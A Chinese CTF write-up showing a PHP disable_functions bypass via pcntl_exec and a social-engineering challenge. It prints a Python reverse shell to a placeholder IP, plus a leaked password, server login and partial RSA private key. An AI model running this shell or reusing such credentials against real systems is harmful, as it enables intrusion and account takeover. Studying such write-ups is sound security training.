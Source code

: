 但是这种方式不是tomato大神的本意，第二种方式是服务器配置不当导致
[http://wooyun.org/bugs/wooyun-2010-0145879](http://wooyun.org/bugs/wooyun-2010-0145879)
在php.ini中可以看到被禁用的函数
```
disable_functions = passthru,exec,system,chroot,scandir,chgrp,chown,shell_exec,proc_open,proc_get_status,popen,ini_alter,ini_restore,dl,openlog,syslog,readlink,symlink,popepassthru,stream_socket_server  
```
其中少了一个很重要的是**pcntl_exe**

说明我们可以执行与php无关的二进制文件，条件好甚至可以反弹shell
写一个py在/tmp目录下
```
import socket,subprocess,os  
s=socket.socket(socket.AF_INET,socket.SOCK_STREAM)  
s.connect(("IP地址",端口))  
os.dup2(s.fileno(),0)  
os.dup2(s.fileno(),1)  
os.dup2(s.fileno(),2)  
p=subprocess.call(["/bin/bash","-i"]); 
```
然后用pcntl_exec启动
```
pcntl_exec("/usr/bin/python",array("/tmp/1.py")); 
```
get shell

当然可以想wooyun文章上说那样输入，原理相同


## 蜜汁公司
[http://mizhicrop.sctf.xctf.org.cn](http://mizhicrop.sctf.xctf.org.cn)
1.提示都在QQ空间里面
2.社工
3.找到测试站点，然后拿下蜜汁公司

http://user.qzone.qq.com/2137162120
28岁 6.1生日 Bl4ck_Roll
肖咪咪 (Bl4ck_Roll)
蜜汁公司 - CTO

得到印象笔记
帐号：2137162120@qq.com
密码：xiaomimi0601

加了好友社工到了验证码√

发现重要的信息
```
服务器管理
114.215.103.83  用户名 bl4ckr0ll  
最近这个账号有点问题，还是把执行权限给去掉

id_rsa
-----BEGIN RSA PRIVATE KEY-----
MIIEowIBAAKCAQEAyYZoMBDUrjIYXLPbJsqNVDENbyWVSeKfyIc0bQ6LPBWYagKI
uPGQ3Lqq4vyvdePutqT7zhHEkj50RAOzTt2m595ldxx3YXYZhryF/XwDcKUhYv9O
Rqzt0j3MM+ekfrZI7cryMvUJcoYdwnaD+O7ZOdmmE7gMkcHzlN+LDDND99JbzbrI
C2kvHqWskE/zfMn2heI5MFPf0zLZgm932J6UI5ms0CdgVQCIQX3LzYfhC+mdbe3p
X9ptcSeCowjC5RdqtjiML6DWvmD2VcavJRfqDi26pKmhy8xnOoeDJu87WpFXnQbx
GJpJ81QsFJPRyXdT5NZojhR7Jz4lnnwHz9kZZQIDAQABAoIBAEkW10i/gfNftdhB
XvVVtyZW2BF8pwVyDRN0ff4jrTnwdyPToXS6IBj+FqZWkOiH73cMpUraxNlpj09v
rCOpXjRwQ4qMp3uQkrd8Pnht9u1u5on6IJCffW2n/hzBIbbXM+ISnf7/QhroK3jw
9PJe5igGGSbDtMNUfZx76vlUyozheCvBO98FvS5maHx5Si4POeGU9JyU4gA4SFvX
0JIcI7DjLCpL23kuG5hXBDx5IEPXAB7HTqXcd+CF+/qIsPbeRdy5Ys03pNJ1BGqt
/9vlryUYs0PIE4vAx6iBZhwffEbpcLsSlTB0HTbyFGKs2IJqdu5tP3aC81yhN4Kw
WQMZAK0CgYEA9W1i80/wkSuGR9gnP1NEuLFpAcqDEXSpVJbi6xdOeFqq9r54zt9O
```